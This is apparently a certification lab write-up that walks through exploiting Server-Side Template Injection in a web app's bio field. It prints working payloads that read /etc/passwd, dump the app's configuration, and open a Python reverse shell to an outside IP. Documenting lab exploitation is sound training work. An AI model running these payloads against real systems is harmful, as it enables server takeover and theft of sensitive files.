 ```yaml
---
title: Challenge 13:Reverse Shells Are Not for The Weak
date: 2024-05-14 05:00:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


### Challenge/Task

1. SSTI

**Proof-of-Concept (POC):**

Another injection type inside web application is Server-Side Template Injection (SSTI). SSTI is a type of security problem in websites or web applications. Imagine a website as a building made of many parts. One important part is called a "template," which is like a blueprint for how the website should look.

Now, sometimes, attackers can find a way to sneak their own instructions into these templates. It's a bit like someone sneaking a fake floor plan into a real building blueprint. When the website uses this fake plan, it could do things it's not supposed to, like showing secret information or even letting the attacker control parts of the website.

Usually, to test the SSTI we will insert {{}} syntax into these field or parameters. For example, enter {{ 7*7 }} into a bio field below:

![POC-otb](/img/cwae/rsa1.png){: w="400" h="400" }{: .normal }

Surprisingly, the 7*7 which is equal to 49 is reflected in the bio. That’s mean the parameter is vulnerable to SSTI.

How can attacker exploit this vulnerability? Inside {{}} syntax, attacker can put any command that will be executed by the server. First of all, we try to get the list of user by inserting below payload. It works

```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

![POC-otb](/img/cwae/rsa2.png){: w="400" h="400" }{: .normal }

Other sensitive info that we can retrieve is also the config by using payload below:
```bash
{{config.items()}}
```

![POC-otb](/img/cwae/rsa3.png){: w="400" h="400" }{: .normal }

We will try to get a reverse shell from this vulnerability. Using below payload, we can get the reverse shell. But first, we have to setup our listener.

![POC-otb](/img/cwae/rsa4.png){: w="400" h="400" }{: .normal }

Then, we can send below payload to the bio input field. 
```bash
{{''.__class__.__mro__[1].__subclasses__()[213](['python', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("143.198.205.200",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }}
```

![POC-otb](/img/cwae/rsa5.png){: w="400" h="400" }{: .normal }

After we click “update” button, our listener is starting to get the connection from the server. We are now inside the victim’s server. To prove it, I run id and whoami command showing that it belongs to the victims. 

![POC-otb](/img/cwae/rsa6.png){: w="400" h="400" }{: .normal }